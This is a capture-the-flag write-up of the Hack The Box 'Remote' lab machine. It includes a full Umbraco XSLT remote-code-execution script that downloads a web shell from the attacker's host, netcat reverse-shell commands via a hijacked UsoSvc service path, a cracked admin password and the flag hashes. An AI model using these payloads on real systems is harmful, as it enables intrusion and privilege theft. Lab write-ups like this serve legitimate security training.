



# <center> Remote (10.10.10.180) Writeup</center>

First start with an Nmap scan

```{.txt}
Nmap scan report for 10.10.10.180
Host is up, received user-set (0.11s latency).
Scanned at 2020-03-21 15:03:22 EDT for 250s
Not shown: 993 closed ports
Reason: 993 resets
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
2049/tcp open  mountd        syn-ack ttl 127 1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 49s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 45222/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20330/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 59307/udp): CLEAN (Timeout)
|   Check 4 (port 15893/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-21T19:06:45
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 21 15:07:32 2020 -- 1 IP address (1 host up) scanned in 250.99 seconds
```
There are a few ports open and taking a closer look at port 111 will reveal a public public nfs share.
```{.txt}
# Nmap 7.80 scan initiated Sat Mar 21 15:07:32 2020 as: nmap -vv --reason -Pn -sV -p 111 "--script=banner,(rpcinfo or nfs*) and not (brute or broadcast or dos or external or fuzzer)" 10.10.10.180
Nmap scan report for 10.10.10.180
Host is up, received user-set (0.018s latency).
Scanned at 2020-03-21 15:07:33 EDT for 99s

PORT    STATE SERVICE REASON          VERSION
111/tcp open  rpcbind syn-ack ttl 127 2-4 (RPC #100000)
| nfs-ls: Volume /site_backups
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE   TIME                 FILENAME
| rwx------   4294967294  4294967294  4096   2020-02-23T18:35:48  .
| ??????????  ?           ?           ?      ?                    ..
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:39  App_Browsers
| rwx------   4294967294  4294967294  4096   2020-02-20T17:17:19  App_Data
| rwx------   4294967294  4294967294  4096   2020-02-20T17:16:40  App_Plugins
| rwx------   4294967294  4294967294  8192   2020-02-20T17:16:42  Config
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:40  aspnet_client
| rwx------   4294967294  4294967294  49152  2020-02-20T17:16:42  bin
| rwx------   4294967294  4294967294  64     2020-02-20T17:16:42  css
| rwx------   4294967294  4294967294  152    2018-11-01T17:06:44  default.aspx
```
I mounted the share so I could do some further enumeration.
```{.txt}
root@kali: # mount -t nfs 192.168.34.211:/site-backup /mnt
```
Looking around the share I find a file called `Umbraco.sdf`. Running `strings` against the file reveals an password hash.
```{.txt}
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
```
Cracking the hash `b8be16afba8c314ad33d812f22a04991b90e2aaa` gives me a password of `baconandcheese`. Now since I also have a email of `admin@htb.local` this tells me I most likely should be looking for a login page of some sort. Enumerating port 80 I find one at `http://10.10.10.180/umbraco/#/login`


Seeing that the the webpage is running Umbraco I find an an RCE exploit here https://www.exploit-db.com/exploits/46153. I had make some edits to the exploit, here is the final product.
```{.py}
import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());

print("Start");

# Execute a calc for the PoC
payload = """<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("http://10.10.14.48/cmdasp.aspx",
                       @"c:\\inetpub\\wwwroot\\Umbraco\\cmdasp.aspx");

    return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>"""

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";

# Step 1 - Get Main page
s = requests.Session()
url_main =host+"/umbraco/"
r1 = s.get(url_main)
print(s.cookies.get_dict())

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue" :"","ctl00$body$visualizeDo":"Visualize+XSLT"};
print(data)
# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
Using this exploit I upload `cmdasp.aspx` which comes preinstalled on kali. This script will allow me to execute commands on the system. Then, using the dashboard I upload a meterpreter shell which I generated using msfvenom.



Now I navigate to `http://10.10.10.180/umbraco/cmdasp.aspx` in the web browser to access the webshell and then to execute the shell I go to `C:\inetpub\wwwroot\Media\1036\shell.exe`. I make sure to have my listener set up before hand.



With the shell on the system I can now read the `user.txt` file.
```{.txt}
C:\Users\Public>type user.txt
2e7f931478cf7b5ce9307f81ecc1b4a0
```
Next I upload winPEASx64.exe to the system and run it. Looking through the results I see that I have full access to the service `UsoSvc`.



UsoSvc is vulnerable (CVE-2019-1322). I first upload a netcat binary to the box. I then change the binPath of the UsoSvc service to execute a netcat reverse shell command to give myself a system shell. Lastly I stop/start the service to trigger the command.
```

C:\Users\Public>sc.exe config usosvc binPath= "C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12345"
sc.exe config usosvc binPath= "C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12345"
[SC] ChangeServiceConfig SUCCESS

C:\Users\Public>sc.exe stop usosvc
sc.exe stop usosvc

SERVICE_NAME: usosvc
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530

C:\Users\Public>sc.exe start usosvc
sc.exe start usosvc
```
I check my listener and get a connection back. Problem is the shell will most likely die because netcat is not a service binary so to keep a persistent shell I run a second netcat command within the reverse webshell
```{.txt}
root@kali:~# nc -lvnp 12345
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49698.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12346
```
Now checking my second, I get a connection back and I am `nt authority/system` and I can read the `root.txt file`
```{.txt}
# nc -lvnp 12346
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::12346
Ncat: Listening on 0.0.0.0:12346
Ncat: Connection from 10.10.10.180.
Ncat: Connection from 10.10.10.180:49699.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority/system
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.text
dcf3ea5c7f6868a71fc1e111657265eb
```
